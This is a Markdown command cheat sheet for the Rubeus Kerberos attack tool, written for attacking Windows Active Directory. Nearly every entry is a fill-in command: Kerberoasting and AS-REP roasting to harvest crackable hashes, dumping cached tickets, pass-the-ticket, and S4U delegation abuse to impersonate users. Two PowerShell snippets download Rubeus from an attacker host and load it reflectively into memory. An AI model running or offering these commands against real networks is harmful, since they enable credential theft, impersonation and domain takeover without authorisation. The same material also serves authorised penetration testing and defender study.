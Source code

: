 # rubeus

% ad, windows, rubeus

## inject ticket from file
#plateform/windows #target/local #cat/UTILS  
```cmd
.\Rubeus.exe ptt /ticket:<ticket>
```

## load rubeus from powershell
#plateform/windows #target/local #cat/UTILS 
```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://<lhost>/Rubeus.exe');$assem = [System.Reflection.Assembly]::Load($data);
```

## execute rubeus from powershell
#plateform/windows #target/remote #cat/UTILS 
```powershell
[Rubeus.Program]::MainString("klist");
```

## monitor
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe monitor /interval:5 /filteruser:<machine_account>
```

## inject ticket from b64 blob
#plateform/windows #target/local #cat/UTILS  
```cmd
.\Rubeus.exe ptt /ticket:<BASE64BLOBHERE>
```

## check ASPREPRoast for all users in current domain
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe asreproast  /format:<AS_REP_response_format> /outfile:<output_hashes_file>
```

## ASREPRoast specific user
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe asreproast  /user:<user> /domain:<domain_name> /format:<AS_REP_response_format> /outfile:<output_hashes_file>
```

## kerberoasting - current domain
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file>
```

## Kerberoasting and outputting on a file with a specific format
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file> /domain:<domain_name>
```

## Kerberoasting while being "OPSEC" safe, essentially while not try to roast AES enabled accounts
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file> /domain:<domain_name> /rc4opsec
```

## Kerberoast AES enabled accounts
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file> /domain:<domain_name> /aes
```
 
## Kerberoast specific user account
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file> /domain:<domain_name> /user:<user> /simple
```

## get hash
#plateform/windows #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```cmd
.\Rubeus.exe hash /user:<user> /domain:<domain_name> /password:<password>
```

## dump - will dump any relevant cached TGS ticket’s stored
#plateform/windows #target/local #cat/POSTEXPLOIT/CREDS_RECOVER 
```
.\Rubeus.exe dump
```

## ask and inject ticket
#plateform/windows #target/remote #cat/ATTACK/CONNECT 
```
.\Rubeus.exe asktgt /user:<user> /domain:<domain_name> /rc4:<ntlm_hash> /ptt
```

## S4U - with ticket - Constrained delegation
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT 
```
.\Rubeus.exe s4u /ticket:<ticket> /impersonateuser:<user> /msdsspn:ldap/<domain_fqdn> /altservice:cifs /ptt
```

## S4U - with hash - Constrained delegation
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT 
```
.\Rubeus.exe s4u /user:<user> /rc4:<NTLMhashedPasswordOfTheUser> /impersonateuser:<user_to_impersonate> /msdsspn:ldap/<domain_fqdn> /altservice:cifs /domain:<domain_name> /ptt
```

## get rc4 of machine with the password
#plateform/windows #target/local #cat/POSTEXPLOIT/CREDS_RECOVER 
```
.\Rubeus.exe hash /password:<machine_password>
```

## S4U - Resource based constrained delegation
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT 
```
.\Rubeus.exe s4u /user:<MachineAccountName> /rc4:<RC4HashOfMachineAccountPassword> /impersonateuser:<user_to_impersonate> /msdsspn:cifs/<domain_fqdn> /domain:<domain_name> /ptt
```

## Rubeus Reflection assembly
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT 
```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://<ip>/Rubeus.exe')  
$assem = [System.Reflection.Assembly]::Load($data)
[Rubeus.Program]::Main("<rubeus_cmd>".Split())
```

= ticket : c:\Temp\ticket.kirbi
= domain_fqdn : MYDC.mydomain.local
= domain_name : mydomain.local
= AS_REP_response_format : hashcat
